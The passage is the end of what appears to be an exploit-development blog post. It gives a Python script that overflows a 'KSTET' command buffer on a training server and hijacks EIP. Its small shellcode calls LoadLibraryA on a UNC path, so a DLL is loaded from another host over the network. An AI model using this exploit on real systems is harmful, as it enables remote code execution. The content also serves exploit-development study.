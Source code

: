 The final exploit code (for now?):
```python
#!/usr/bin/python

import sys
import socket

shellcode = ""
shellcode += "\x83\xec\x7c" #sub esp,0x7c
shellcode += "\x56"
shellcode += "\x68\x5c\x73\x5c\x73"
shellcode += "\x68\x35\x35\x33\x31"
shellcode += "\x68\x33\x32\x32\x33"
shellcode += "\x68\x5c\x5c\x33\x32"
shellcode += "\x54"
shellcode += "\xB8\x9E\x9A\xE2\x77"
shellcode += "\xFF\xD0"


buf = "KSTET "
buf += "A"*2
buf += shellcode
buf += "A"*(68-len(shellcode))
buf += "\x0C\x10\x40" #eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.12",9999))
print s.recv(1024)
s.send(buf)
print s.recv(1024)
s.close()
```
Resulting in the following call being made using LoadLibraryA:
![smallest?](/images/smallest.png)

Thanks for reading, feel free let me know if you found a way to cut down on this size even further.



